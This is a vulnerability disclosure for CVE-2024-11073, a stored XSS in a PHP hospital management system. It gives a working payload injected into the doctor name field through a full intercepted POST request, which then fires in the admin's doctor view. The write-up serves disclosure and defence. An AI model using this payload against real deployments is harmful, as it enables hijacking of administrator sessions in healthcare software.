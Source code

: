 Exploit Title: CVE-2024-11073 Hospital Management System - Stored XSS

Application: Hospital Management System

Date: 11.11.2024

Bugs: XSS

Exploit Author: Salah Tayeh

Vendor Homepage: https://www.sourcecodester.com/

Software Link: https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html

Version: 1.0

# Description
Stored Cross Site Scripting (XSS) in the "Vaidya Mitra" healthcare application, specifically in the doctor's account settings functionality. The issue arises due to inadequate input validation in the doctor's name parameter, allowing an attacker to inject malicious scripts into the system, leading to a Cross-Site Scripting (XSS) vulnerability.

# Proof of Concept (PoC)


**1. Exploiting Doctor's Account Settings:**

The attacker, using the Burp Suite Proxy tool, intercepts and modifies a POST request sent by the doctor to update their account settings.
The payload <img/src/onerror=prompt(1)> is injected into the name parameter.
The manipulated request looks like the following:

POST /vm/doctor/edit-doc.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 203
...

id00=4&oldemail=salahtayeh13%40yahoo.com&email=salahtayeh13%40yahoo.com&name=Dr.+Salah+Tayeh+%3Cimg%2Fsrc%2Fonerror%3Dprompt%281%29%3E&nic=12345678&Tele=7070707070&spec=1&password=doctor&cpassword=doctor

Upon submission, the payload gets stored in the doctor's name field.

**2. Triggering XSS in Admin's View:**

An admin viewing doctors' information at http://localhost/vm/admin/doctors.php inadvertently triggers the XSS vulnerability.
The admin sends a GET request to view a doctor's details:

GET /vm/admin/doctors.php?action=view&id=4 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
...

The server returns the doctor's information, and the XSS payload in the name field is executed in the admin's browser, leading to the alert being triggered.

PoC - Video: https://drive.google.com/file/d/1Omjwoh6B2xh41c3Av0_VJsoR7tascb1_/view?usp=sharing
